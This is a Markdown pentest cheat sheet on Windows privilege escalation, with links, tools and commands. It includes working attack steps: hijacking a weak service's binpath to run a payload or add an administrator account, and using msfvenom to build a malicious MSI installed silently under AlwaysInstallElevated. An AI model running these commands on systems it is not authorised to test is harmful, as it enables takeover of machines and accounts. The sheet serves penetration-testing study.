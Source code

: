 # Windows Privilege Escalation #

## Awesome Resources ##

http://www.fuzzysecurity.com/tutorials/16.html

https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/

https://toshellandback.com/2015/11/24/ms-priv-esc/

https://xapax.gitbooks.io/security/content/privilege_escalation_windows.html

http://www.greyhathacker.net/?p=738

http://www.greyhathacker.net/?p=185

https://www.sploitspren.com/2018-01-26-Windows-Privilege-Escalation-Guide/


## Tools ##

https://github.com/GDSSecurity/Windows-Exploit-Suggester

http://www.powershellempire.com/?page_id=378

http://pentestmonkey.net/tools/windows-privesc-check


## Useful Commands ##

**Unquoted Service paths** 

Using WMIC, list service names, display names, executable path and the start mode while grepping (findstr) for any entry without a quote ("). You can also add `findstr /i "Auto"` to only display services that autorun.
For details on how to exploit this and why this is vulnerable check out [Pentest Blog](https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/
)


```
wmic service get name,displayname,pathname,startmode |findstr /i /v "C:\Windows\\" |findstr /i /v """
```

Alternatively there is a Metasploit module that can check for unquoted service paths and attempt to exploit them. `exploit/windows/local/trusted_service_path`

## Insecure File/Folder Permissions ##
The built-in windows tools `icacls` can be used to check a folder or file permissions. What you are checking for here is the permissions of the user group "Everyone" and your current user to have either Full (F) permissions or modifiable/write(M) permissions.

```
icacls "C:\Program Files\AppName\executable.exe"
```


## Insecure Service Permission Configuration ##

The tool [AccessChk](https://technet.microsoft.com/en-us/sysinternals/accesschk.aspx) can be used in a few different ways check to for services with insecure permissions that may permit a low-priv user to change the services configuration, including the executable the service runs.

After uploading AccessChk the first time it is run you will need to pass `/accepteula`. Below are a few commands that will search for services that any Authenticated User can edit, Display permission for a specific service, or check the entire drive for weak permissions

```
accesschk.exe /accepteula
accesschk.exe -uwcqv "Authenticated Users"
accesschk.exe -ucqv [service_name]
accesschk.exe -uwqs "Authenticated Users" c:\*.*
```

Once a weak service has been identified you can alter the service using `sc`

Display the Services Configuration
```
sc qc "Service Name"
```

Alter the binpath of the service to execute a custom executable, add a new user (or any other valid windows command), then add the user to local administrators (After you add the new user). The fourth command `cmd.exe \k` can be used to get around SCM terminating a non-legitimate service (e.g. our malicious executable).
```
sc config "Service Name" binpath= "payload.exe"
sc config "Service Name" binpath= "net user myuser P4ssw0rd@ /add
sc config "Service Name" binpath= "net localgroup Administrators eviladmin /add"
sc config "Service Name" binpath= "cmd.exe /k payload.exe"
```

The service can be started and stopped using:
```
sc stop "Service Name"
sc start "Service Name"
```

If you do not have permissions to restart the service but it's startmode is Auto, try to restart the host machine to get your command/executable to run.

## MSI Always Install Elevated ##

If either of the following registry values is present, windows will always install MSI packages with Elevated permissions. 
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

You can exploit this by using MSFvenom to create a malicious executable (reverse shell or add user), and then a malicious MSI that calls the executable. Upload both then install the MSI package.
```
msfvenom -f msi-nouac -p windows/exec cmd="C:\path\to\Payload.exe" > payload.msi

msiexec /quiet /qn /i payload.msi
```


## Enumeration/Info Commands ##

Display all users on system
```
net users
```

View Scheduled tasks. **Check permissions of tasks, maybe the executable file/folder has weak permissions.** Also check what that task does, is it loading a DLL (with weak permissions), is it loading a modifiable configuration file, or interacting with other services? 
```
schtasks /query /fo LIST /v
```

View started services:
```
tasklist /SVC

netstart
```

OS Version
```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
```
OS info can also be found in: `C:\Windows\System32\license.rtf`, this is more useful if you don't have a shell such as directory traversal through ftp/web, or LFI.


